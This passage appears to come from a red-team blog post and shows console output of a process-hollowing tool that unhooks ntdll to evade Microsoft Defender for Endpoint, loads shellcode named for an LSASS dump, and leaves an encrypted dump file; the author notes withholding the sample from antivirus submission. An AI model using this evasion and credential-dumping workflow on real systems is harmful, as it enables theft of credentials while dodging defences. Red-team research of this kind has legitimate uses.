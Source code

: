 ![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/NtProccesHollow/Images/Pasted%20image%2020240324013644.png)

Upon testing execution on a patched system (March 2024) with MDE enabled, Microsoft asks to send this file for submission, we deny this and any uploads to VirusTotal.

```
C:\> .\NtNotUnmapSection.exe
Usage: <1P or H0stname> <sh3llcod3>

C:\> .\NtNotUnmapSection.exe 192.168.100.40 DLLHijackLSASSDump.bin
[+] Stealth mode: Unhooking one function
[+] Creating new process in debug mode
[+] Found LdrLoadDllAddress address: 0x00007FFFF2954850
[+] Setting HWBP on remote process
[+] Breakpoint Hit!
[+] Copying clean ntdll from remote process
[+] Found ntdll base address: 0x00007FFFF2920000
[STEALTH] Function Name : NtAllocateVirtualMemory
[STEALTH] Address of Function: 0x0000025409480570
[+] Unhooked

C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/24/2024   3:26 AM       47033665 ENCRYPTED.DMP
-a----         3/24/2024   3:03 AM          21504 NtNotUnmapSection.exe
```
